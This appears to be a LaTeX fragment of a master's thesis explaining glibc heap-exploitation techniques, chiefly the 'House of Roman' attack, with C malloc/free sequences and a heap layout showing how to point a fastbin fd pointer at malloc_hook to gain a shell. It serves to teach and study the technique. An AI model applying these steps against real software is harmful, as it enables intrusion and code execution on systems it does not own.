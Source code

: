 \documentclass{masterthesis}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\freec{\lstinline{free}\xspace}
\begin{document}
Finally, we trigger the attack by one allocation.

\begin{lstlisting}[language=c,frame=tlrb]
 malloc(10);
\end{lstlisting}

\subsection{The House of roman}

\label{subsect:houseofroman}
The main goal of this attack is to get shell access by point the \lstinline{fd} pointer to \lstinline{malloc_hock} and write \emph{one-gadget} to \lstinline{malloc_hock} with a combination of \ub{} attack , \fb{}attack and Use after the free attack.

The first step is to get a pointer inside \emph{\lstinline{malloc_hook}}. \lstinline{malloc_hook} provide ability to modify the behavior of \lstinline{malloc} and \lstinline{free} with a hook function. To achieve this, we create a \fb{} chunk in a way the \lstinline{fd} pointer points to \lstinline{malloc_hook}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fastbin_victim = malloc(0x60); 
malloc(0x80);
uint8_t* main_arena_use = malloc(0x80);
uint8_t* relative_offset_heap = malloc(0x60);
free(main_arena_use);
\end{lstlisting}

The last \freec{}, put \lstinline{main_arena_use} chunk inside the \ub{}; also, \lstinline{main_arena_use} has a pointer to \lstinline{main_arena+0X68} inside \lstinline{fd} pointer.
Now by request a chunk inside the \fb{} chunk size, we have a chunk that has a pointer to \lstinline{main_arena inside} the \lstinline{fd} pointer.

\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_libc_chunk = malloc(0x60);
\end{lstlisting}

Note that the chunk size is mainly set to 0x60 to put this inside the fast bins 0x70 later. 
In the next step, we free \lstinline{relative_offset_heap} and \lstinline{fastbin_victim} . We free \lstinline{relative_offset_heap} at first, so the heap manager puts \lstinline{relative_offset_heap} inside the \lstinline{fd} pointer to \lstinline{fastbin_victim}. Please take a look at the heap layout.

\begin{lstlisting}[language=c,frame=tlrb]
0x0: fastbin_victim - size 0x70 
0x70: alignment_filler - size 0x90
0x100: fake_libc_chunk - size 0x70
0x170: leftover_main - size 0x20
0x190: relative_offset_heap - size 0x70 
\end{lstlisting}
\end{document}
